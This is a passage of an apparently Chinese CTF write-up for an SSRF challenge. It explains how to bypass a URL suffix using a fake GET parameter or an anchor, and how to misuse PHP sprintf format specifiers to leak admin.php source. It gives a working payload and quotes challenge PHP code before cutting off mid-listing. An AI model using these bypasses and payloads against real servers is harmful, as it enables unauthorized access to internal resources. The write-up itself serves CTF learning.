1. 根据上面代码，我们可以分析得到：
   - q1 没有限制
   - q2 要以 [http://127.0.0.1开头，且后面会连接一个](http://127.0.0.xn--1%2C-wu2c1c5e48du6rgvku7m4jl9t6jv3sa/) y1ng.txt 然后可以被返回。
   - q3 必须是GET或者POST 开头
2. 基本上可以判定是ssrf了，有几个地方需要绕过一下：
   - q2会被加上y1ng.txt 怎么才能让他的连接不起作用呢。
   - sprintf将q2输出格式是%d 也就是输出不完整，我们需要%s 来输出。

**去掉url拼接的.y1ng.txt**

 **我们只需要将后面接一个不存在的get参数就可以绕过了。例如：`http://127.0.0.1/xxxxxxxx.php?mayi=666y1ng.txt` 他最后显示的页面还是`http://127.0.0.1/xxxxxxxx.php` 这样就可以成功绕过了。**
 **同时还可以利用锚点**
`http://127.0.0.1/xxxxxxxx.php#666y1ng.txt`



**sprintf输出格式问题**

**`sprintf("$url method&content_size:$method%d", $detect)`我们可以知道 %d 前面还有一个可以控制的变量，也就是我们传入的`q3`。经过了解，我们知道在sprintf这里面 `%` 才是转义字符，我们可以传入`POST%s%`最后把`%d`给取消转义。达到绕过效果**

**还有一种方法 %1$s  ——  这种办法原理是%1$s会将第一个参数用string类型输出，这道题中第一个参数便是admin.php的源码**



payload：

> q1=1&q2=http://127.0.0.1/admin.php#&q3=GET%1$s 



3.session伪造

```php
<?php
error_reporting(0);
session_start();
$f1ag = ‘f1ag{s1mpl3_SSRF_@nd_spr1ntf}‘; //fake

function aesEn($data, $key)
{
    $method = ‘AES-128-CBC‘;
    $iv = md5($_SERVER[‘REMOTE_ADDR‘],true);
    return  base64_encode(openssl_encrypt($data, $method,$key, OPENSSL_RAW_DATA , $iv));
}

function Check()
{
    if (isset($_COOKIE[‘your_ip_address‘]) && $_COOKIE[‘your_ip_address‘] === md5($_SERVER[‘REMOTE_ADDR‘]) && $_COOKIE[‘y1ng‘] === sha1(md5(‘y1ng‘)))
        return true;
    else
        return false;
}

if ( $_SERVER[‘REMOTE_ADDR‘] == "127.0.0.1" ) {
    highlight_file(__FILE__);
} else {
    echo "<head><title>403 Forbidden</title></head><body bgcolor=black><center><font size=‘10px‘ color=white><br>only 127.0.0.1 can access! You know what I mean right?<br>your ip address is " . $_SERVER[‘REMOTE_ADDR‘];
}


$_SESSION[‘user‘] = md5($_SERVER[‘REMOTE_ADDR‘]);

if (isset($_GET[‘decrypt‘])) {
    $decr = $_GET[‘decrypt‘];
```